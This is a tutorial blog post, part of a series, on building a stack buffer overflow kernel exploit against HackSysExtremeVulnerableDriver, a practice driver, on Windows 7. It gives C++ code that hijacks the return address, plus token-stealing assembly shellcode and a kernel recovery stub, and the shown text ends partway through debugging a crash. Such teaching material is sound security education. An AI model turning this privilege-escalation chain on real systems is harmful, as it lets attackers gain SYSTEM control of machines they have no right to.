Time to develop the first exploit of the series - a stack based buffer overflow for Windows 7.

I'll be using the [HackSysExtremeVulnerableDriver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) when writing exploits for this section.  This is an intentionally vulnerable driver that has a large number of different vulnerabilities coded into it for people to practice on.  I highly recommend downloading it and following along.

## Why Windows 7?
Kernel exploit development on Windows is a bit different from user land exploit development.  There are different goals and different mitigations that prevent an exploit developer from achieving them.

Windows 7 has the fewest mitigations for "modern" Windows, and Windows 11, naturally, has the most.  We'll develop the exploit on Windows 7, then modify it to bypass the mitigations in Windows 8.1, then Windows 10/11.    But as always, we start with the basics.

Because unpatched versions of Windows 7 are hard to find these days, you can access a share from my Google Drive [here](https://drive.google.com/drive/folders/1tBCK4-KrWySkjqN7ZlO6sWgLuG2fdu3B?usp=sharing) that has the ISO for the OS, the VMware tools that go with it, and an old 32 bit version of Sysinternals.  

For instructions on how to get a kernel debugger working, follow the **serial debugging** setup steps on my [kernel debugger setup post](https://stolenfootball.github.io/posts/research/2025/windows_kernel_debugger/).

## What does a kernel exploit do?
Kernel exploits are traditionally used for **privilege escalation**.  In other words, we assume we can execute arbitrary code as a user, and we use a bug to attempt to execute arbitrary code as the kernel.

This makes for a slightly different landscape for those used to user land exploit development.  The primitives are more powerful because we start out with arbitrary code execution, but more work is required to make a working exploit because we need to make sure the kernel is still functioning when our exploit is done with it.

Without further adieu, let's get to it.

## The driver
Download HEVD from the [releases page](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/releases/tag/v3.00) on Github, then open `HEVD.sys` in IDA.  Make sure you use the one in the `\driver\vulnerable\x86` directory.

Reverse engineer the driver to the point you're comfortable with it. Yes, we have source for this, but having the IDA decompilation with the corresponding assembly is still critical and this step shouldn't be skipped.

The driver only handles IRPs through a DeviceIoControl handler.  The handler takes in an IRP, then depending on a large switch statement on the IOCTL prints a debug message then passes the IRP and IoStackLocation to an appropriate vulnerable function.  

All of this is very standard, and by this point in the series you should know how this works just by eyeballing it.  If you're confused about any of this, I highly recommend going back and re-reading some of the earlier posts.

## The bug
We're interested in writing a basic stack based buffer overflow exploit for this driver.  Reading through the debug messages, we can see that the vulnerable function is triggered by the IOCTL `0x222003`.



If we plug that IOCTL into the [OSR Online IOCTL decoder](https://www.osronline.com/article.cfm%5Earticle=229.htm) we can find out some more information about it:



`METHOD_NEITHER` is interesting, as `NEITHER_IO` isn't always safe.  It is also well documented that the input buffer of a `METHOD_NEITHER` IOCTL is passed through the `Parameters.FileSystemControl.Type3InputBuffer` field of the current `IO_STACK_LOCATION`, which will be helpful when applying types for reversing.

Let's click into the function I named "IoctlBufferOverflowStack".



Not so helpful.  However, applying types, renaming variables, and selecting the proper enums, and we end up with:



This function is more or less just a parser for the IRP that passes the input buffer and its length into the function I called "Trigger Overflow".  Let's look at that next:



Finally, something that looks like a user mode pwn challenge.  A statically sized stack based buffer and a `memcpy` of arbitrary length into it.

The above code is vulnerable to a simple stack based buffer overflow.  There are no protections such as stack canaries in the Windows 7 kernel, so we can trivially overwrite all the way to the return address.  

## Interface with the driver

Let's put together a program that interfaces with the driver without triggering the bug.  We can later use it to build our exploit on.

```c++
#include <windows.h>
#include <stdio.h>

#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

#define BUFFER_SIZE 2048

int testOverflow(HANDLE hDevice);

int main() {
    HANDLE hDevice;
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        nullptr,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        nullptr
    );

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
    } 

    printf("[+] Device opened successfully!\n");

    testOverflow(hDevice);

    printf("[+] Cleaning up and closing handle...\n");

    CloseHandle(hDevice);
    return 0;
}

int testOverflow(HANDLE hDevice) {

    PCHAR lpInBuffer { nullptr };
    ULONG inBufferSize { 0 };
    DWORD bytesReturned { 0 };
    
    // Allocate a buffer of the correct size to use the driver
    // safely.  It will later be extended for the overflow
    inBufferSize = BUFFER_SIZE;
    
    lpInBuffer = (PCHAR)HeapAlloc(GetProcessHeap(), 
                                  HEAP_ZERO_MEMORY, 
                                  inBufferSize);

    if (!lpInBuffer) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] Created buffer of size: %lu\n", inBufferSize);

    // Set buffer to be full of 'A's, but make the last 4 bytes 
    // 'B' so we know if we have overflowed to the right place.
    memset(lpInBuffer, 'A', inBufferSize);
    memset(lpInBuffer + (inBufferSize - 4), 'B', 4);

    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
    
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        nullptr,
        0,
        &bytesReturned,
        nullptr
    );

    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);

    return 0;
}
```

Make sure to compile this for 32 bit Windows with the Visual Studio 2022 Developer Command Prompt.  The command is as follows:

```cmd
cl /D WIN32 triggerOverflow.cpp
```

## Find the offsets
Now it's time to install the driver on a VM, run our program against it, and figure out what the stack of the vulnerable function looks like.

Start up the Windows 7 VM that you have set up for kernel debugging and install the driver with the usual `sc` commands.

```cmd
sc create HEVD type= kernel start= auto binPath= C:\Users\stolenfootball\Desktop\HEVD.sys
```

Then run:

```cmd
sc start HEVD
```

Next:
- Connect the debugger
- Load the debug symbols
- Find the base address of the driver
- Rebase the driver in IDA
- Disassemble some instructions in WinDbg to verify the rebase worked
- Resume execution on the VM and take a snapshot

If you need more instructions for any of that, see [the last post in this series](https://stolenfootball.github.io/posts/series/windows_drivers/p6_debugging_drivers/).

Next, let's check IDA for a good place to set a breakpoint.  Looking at the assembly, I like the following location:



At this point we're exactly one instruction before the `memcpy`, which means:
- The stack frame is set up completely
- A pointer to the vulnerable buffer is in `eax`
- No data has been copied in yet, so nothing is corrupted

We should be able to gain most of the information we need to write the exploit from here.

Now set the breakpoint in WinDbg and run the client code on the VM.

When the breakpoint gets hit, let's look at the registers.  You can do that by issuing the `r` command in the `kd>` prompt.



A pointer to the vulnerable buffer is in `eax`, and if we're overwriting the return address, we need to overwrite `ebp+4` through `ebp+8`.  Let's subtract `eax` from `ebp` to see how far we have to go.

```python
>>> 0x94964bd0 - 0x949643b4
2076
```

So if we write a buffer of 2084 bytes (2076 + 8 to hit the return address above `ebp`) the last 4 bytes of our payload should overwrite the return address!

## Aside: SEH
If you've been paying close attention, you might be confused at this point.  If we look at the disassembly of the vulnerable function again:


`localBuffer` appears to be the first local variable on the stack.  So shouldn't the buffer only need to be 2056 (2048 + 4 (old ebp) + 4 (return addr)) bytes?

As it turns out, there is another struct on the stack just above buffer - the **EH4 Registration Node** struct used by **Structured Exception Handling (SEH)**.

[Structured Exception Handling](https://learn.microsoft.com/en-us/cpp/cpp/structured-exception-handling-c-cpp?view=msvc-170) is a Microsoft-specific extension to C and C++ to handle `try` `except` statements gracefully within a program.  *It is only found in certain 32 bit Windows programs.*

You can usually tell where SEH is used in code because of the use of `__try` and `__except` in place of the usual `try` and `except`.

In a nutshell, SEH works by pushing an **EH4 Registration Node** struct to the top of the stack when you enter a function that contains a `__try` `__except` block.  This struct contains a linked list of exception handlers, as well as information on how to handle exceptions within the function.  If an exception is thrown, Windows will try to walk through the linked list to find an exception handler that matches the thrown exception.  If it finds one, it executes it.



I'm not going to get deep into SEH right now both because it isn't relevant to this exploit and it only exists on 32 bit versions of Windows, which you rarely find anymore.  If you want to do more reading, [this post](https://revers.engineering/applied-re-exceptions/) (about half way down) gives a good general explanation of how SEH works, and [this post](https://www.openrce.org/articles/full_view/21) is a fantastic writeup for a reverse engineer in dealing with SEH artifacts.

For our use now, it is enough to know that an EH4 Registration Node struct has 7 fields of 4 bytes, making it 28 bytes long.  If we add that to the 2056 bytes we expected to need for the overwrite, we end up at 2084 bytes, exactly what we saw when looking at the debugger. Mystery solved.

The next thing to figure out is whether the EH4 Registration Node is safe to overwrite.  The struct will be referenced any time an exception is thrown in this function.  Fortunately in this case, the only thing that happens in this function after the `memcpy` completes is a `return`.  This means even if we trash the EH4 Registration Node, we can be confident it won't be used after is is overwritten. 

> In this function SEH is being used in case `ProbeForRead` fails. `ProbeForRead` is a function used to make sure a user land buffer is safe to access from kernel land.  If the buffer is unavailable, it throws an exception.

Now that we have confirmed there aren't any sensitive artifacts in the way of our overwrite, we can continue on to writing the exploit.

## BSOD!
Let's make a quick stack diagram to model exactly what the program stack looks like when the bug gets triggered.



Using the same code as before, we only need to make one change to get the overflow:

```c++
// Allocate a buffer of the correct size to overflow into the 
// return address.  Need to overflow the buffer, the SEH EH4 
// Registration Node, the saved EBP, and finally the return
// address.  Last 4 bytes will overwrite the return address.
inBufferSize = BUFFER_SIZE + EH4_REGISTRATION_NODE_SIZE + 4 + 4;
```

I also added a `#define EH4_REGISTRATION_NODE_SIZE 28` at the top for easier reading.

Recompile and run again with the debugger attached, and we get:



Success! We attempted to execute code at `0x42424242`, which means `EIP` was set to all Bs.  The offset is exactly right.

## Now what?
At this point when developing a user mode exploit, it would be time to find some space for our shellcode, make a ROP chain to set the page containing it to executable, then figure out  a way to jump to it.  We might even need a stack leak to circumvent ASLR in some cases.

But think about the end goal for a second.  We want to run arbitrary code with kernel privileges.  Thanks to the buffer overflow, we now have a "call" with kernel privileges.  We started with the ability to load arbitrary code into memory, but only with user permissions.  Why don't we just use our kernel call to jump to a function within our userland code?  

> This method gives us both a `DEP` and `ASLR` "bypass" by default, since the user mode code will of course be in an executable page, and it is trivial to get a pointer to a function we control.

Let's make a function that looks like the following:

```c++
VOID shellcode() {
    __asm {
        mov eax, 0
        mov ebx, 1
        mov ecx, 2
        mov edx, 3
    }
}
```

We also need to change the `testOverflow` function to look like this:

```c++
int testOverflow(HANDLE hDevice) {

    PCHAR lpInBuffer    { nullptr };
    ULONG inBufferSize  { 0 };
    DWORD bytesReturned { 0 };
    DWORD lpShellcode   { 0 };
    
    // Allocate a buffer of the correct size to overflow into the 
    // return address.  Need to overflow the buffer, the SEH EH4 
    // Registration Node, the saved EBP, and finally the return
    // address.  Last 4 bytes will overwrite the return address.
    inBufferSize = BUFFER_SIZE + EH4_REGISTRATION_NODE_SIZE + 4 + 4;
    
    lpInBuffer = (PCHAR)HeapAlloc(GetProcessHeap(), 
                                  HEAP_ZERO_MEMORY, 
                                  inBufferSize);

    if (!lpInBuffer) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] Created buffer of size: %lu\n", inBufferSize);

    // Set buffer to be full of 'A's
    memset(lpInBuffer, 'A', inBufferSize);

    // Set the last 4 bytes to contain a pointer to the "shellcode" function
    lpShellcode = (DWORD)&shellcode;
    lpInBuffer[inBufferSize - 4] = (lpShellcode & 0x000000FF);
    lpInBuffer[inBufferSize - 3] = (lpShellcode & 0x0000FF00) >> 0x8;
    lpInBuffer[inBufferSize - 2] = (lpShellcode & 0x00FF0000) >> 0x10;
    lpInBuffer[inBufferSize - 1] = (lpShellcode & 0xFF000000) >> 0x18;

    printf("[+] lpShellcode: 0x%08X\n", lpShellcode);

    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
    
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        nullptr,
        0,
        &bytesReturned,
        nullptr
    );

    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);

    return 0;
}
```

> Take note that you may have to change the endianness of the pointer to the `shellcode` function. This is done with the bit flip operations used in the code above. 

Let's set a breakpoint just before the return of the TriggerOverflow function and see if we step into our assembly sequence.



Run the code until you get to the breakpoint, then press `t` once or twice to return out of the function.  Once you do, run `u @eip L9` to `unassemble` the next `9` instructions at the memory address contained in the `eip` register.



Our `shellcode` function is running with kernel permissions!  We now have arbitrary code execution as the kernel.  All we have to do is write the shellcode.

## How to spawn a kernel shell
For those coming from Linux user mode exploit development, the standard next step would be to set your registers and make a syscall.  Windows shellcode is a bit more complex since it doesn't make use of the syscall interface as much and instead you have to do some dynamic loading from libraries, but it would still be possible.  

In this case however, we're running code in the kernel, so you can't just spin off a thread or replace the process.  You'd have to go through the trouble of creating a new process, assigning system permissions, loading all of the code responsible for a shell, then context switching to it.  All without breaking the kernel.  Not easy.

Instead, what if we took the approach of **elevating** our exploit code?  We could modify the current process' permissions to be the same as the kernel's permissions, then just spawn a shell with the standard `C` API.  

This is the standard approach, and what I'll be using for the rest of these posts.

## Process Permissions
The Windows permissions model is fairly complex, and allows for any number of fine grained decisions by an administrator as to who is allowed to perform which actions.  That said, exactly how the Windows security subsystem works isn't relevant to writing this exploit so I'm not going to get into it here, but the canonical reference is in [Chapter 7 of Windows Internals Part 1](https://www.amazon.com/Windows-Internals-Part-architecture-management/dp/0735684189) if you want to do more reading.

The important part is as follows:

Each process in Windows is described by an **EPROCESS** struct associated with it.  The EPROCESS struct contains all of the information the operating system needs to know about the process, including things like current threads, the user that owns the process, and security attributes.

One field of the EPROCESS struct is a pointer to an **Access Token**.  The Access Token contains all of the information about which security permissions the process has.

The kernel's **PID** (Process ID) is **4** in Windows 7, and the kernel's token has the most permissions on the system.

## Token Stealing
It is possible to find your current process' Access Token and modify it to have higher permissions, but it isn't always an easy task.  This is especially true in more modern versions of Windows, which have taken to including checksums of all of the fields of the token to make it less prone to modification by an attacker.

Instead, we'll take the approach of simply changing the Access Token pointer in our process' EPROCESS struct to point to the Access Token for the kernel.  This way we can get all permissions the kernel has without worrying about making any mistakes or replicating checksums.



## Shellcode
We're now going to shamelessly steal a Windows 7 token stealing shellcode from the HEVD repo itself.  This isn't the most solid shellcode ever (there are some better cleanup steps you could take), but it is the simplest and clearest I've found that still works, and I think it is good for learning.

Let's go through it line by line.

```asm
pushad                               ; Save registers state
```

The first thing we do is save all registers to the stack.  This will be helpful in resuming execution of the kernel after our exploit code returns.

```asm
xor eax, eax                         ; Set ZERO
mov eax, fs:[eax + KTHREAD_OFFSET]   ; Get nt!_KPCR.PcrbData.CurrentThread
                                     ; _KTHREAD is located at FS:[0x124]
```

The `FS` register always points to the current **TIB** ([Thread Information Block](https://en.wikipedia.org/wiki/Win32_Thread_Information_Block)) in 32 bit Windows.  The `TIB` is a large struct that stores information about the currently running thread such as the stack and heap locations, last thrown error, and more.  

The `TIB` also contains a pointer to the current [`KTHREAD`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/ntos/ke/kthread/index.htm) struct, which can be used to find the current process' `EPROCESS` struct.

```asm
mov eax, [eax + EPROCESS_OFFSET]     ; Get nt!_KTHREAD.ApcState.Process
mov ecx, eax                         ; Copy current process 
```

Now we have a pointer to our exploit code's `EPROCESS` struct stored in `ecx`.

Next, we need to find the kernel's `EPROCESS` struct.  This is fairly easy, because Windows stores all `EPROCESS` structs in a circular doubly linked list, and the kernel's PID is always 4.

```asm
mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4

SearchSystemPID:
    mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
    sub eax, FLINK_OFFSET
    cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId
    jne SearchSystemPID
```

When this loop exits, the kernel's `EPROCESS` struct will be in `edx`.

Now, we just replace the pointer to the exploit code's access token with a pointer to the kernel's access token.

```asm
mov edx, [eax + TOKEN_OFFSET]        ; Get SYSTEM process nt!_EPROCESS.Token
mov [ecx + TOKEN_OFFSET], edx        ; Replace target process nt!_EPROCESS.Token
                                     ; with SYSTEM process nt!_EPROCESS.Token
```

And restore all of the registers.

```asm
popad                                ; Restore registers state
```

## Fixing the kernel
We've now escalated our exploit code's privileges, but if we run the above code, the system will crash!

Any time you're writing a real-life exploit you should take care not to crash the process you're exploiting, but when developing kernel exploits, it is particularly important.  If the kernel crashes, the computer BSODs, and then all of your hard work is for nothing.

So let's figure out what's crashing the program.  If we set a breakpoint just before the function returns into our shellcode, we can see the following values in the registers:



There are three things our shellcode needs to fix before it returns:

- `eax` contains the actual return value for the function.  We need to set it to be `0` so the function returns success.
- `ebp` is still clobbered, and needs to be set back correctly.
- The actual function returns 8, so our shellcode needs to do the same.

```asm
; Kernel recovery stub
xor eax, eax                        ; Set return value to 0
pop ebp                             ; Restore ebp
ret 8                               ; Return the expected value
```

Despite these fixes, if we run the shellcode again, the kernel still crashes!  Let's look at it in a debugger:



The compiler added a prologue and epilogue to the assembly!  Namely, it pushed `ebx`, `esi`, and `edi` to the stack.  When we execute our return in the shellcode, we never remove them, and the stack becomes corrupted.

